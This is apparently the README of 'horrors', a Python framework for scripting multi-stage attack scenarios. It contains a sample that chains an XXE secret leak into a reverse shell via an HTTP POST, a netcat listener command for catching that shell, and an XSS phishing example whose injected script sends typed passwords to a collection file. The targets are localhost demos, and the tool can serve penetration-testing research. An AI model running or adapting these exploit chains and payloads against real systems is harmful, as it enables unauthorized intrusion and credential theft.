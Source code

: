 # horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This framework was created in order to simplify attack automation and exploit development. All you have to do is, for example:

```python
async def reverse_shell(scenario):
    await scenario.http_post(
        'http://{rhost}:{rport}/query/'.format(**scenario.context),
        'secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**scenario.context),
        scenario.context['post_headers'],
    )

context = {
    'rhost': '127.0.0.1',
    'rport': 8008,
    'lhost': '127.0.0.1',
    'lport_reverse': 4444,
    'post_headers': {'Content-Type': 'application/x-www-form-urlencoded'},
}

story = scenarios.Scenario(**context)
story.set_debug()
story.set_proxy('http': 'http://127.0.0.1:8080')

ftpd = services.FTPReader(story)
ftpd.add_event('xxe', when=events.DataMatch(r'.+SecretKey=(.+);', bucket='secret'))

story.add_scene(reverse_shell, when='xxe')
story.play()
```

## Installation

    $ git clone https://github.com/tasooshi/horrors
    $ cd horrors; pip3 install .

## Example

Examples are included in the `horrors/examples` directory. Try it out by running:

### 1. vulnchain

    $ nc -lv4 4444
    $ horrors/examples/vulnchain/victim.py
    $ horrors/examples/vulnchain/attacker.py

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

### 2. xssphish

Or (this one requires interaction):

    $ horrors/examples/xssphish/victim.py
    $ horrors/examples/xssphish/attacker.py

Now visit `http://127.0.0.1:8008/?message=<script src="http://127.0.0.1:8888/fakequery.js"></script>`, type some passwords and watch `collected.json` for incoming credentials.

![xssphish](examples/xssphish/dom-based-xss-phish.jpg)


## Changelog

* **2021/12/14** Beta (v0.5)
    * Improved HTTP proxy logic
* **2021/12/12** Beta (v0.4)
    * A bit of asyncio cleaning up
    * Fixed examples to match the new API
    * Simplified services imports and generally everything
    * Changed default ports
    * Added requirements to setup.py
    * Replaced requests with aiohttp
* **2021/08/26** Beta (v0.3)
    * Yet another refactoring.
    * Added full HTTP support using Flask.
    * Added `utility/collector.py` to simplify data collection from exploited machines (and another related example).
* **2021/08/10** Beta (v0.2)
    * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
    * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
    * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)
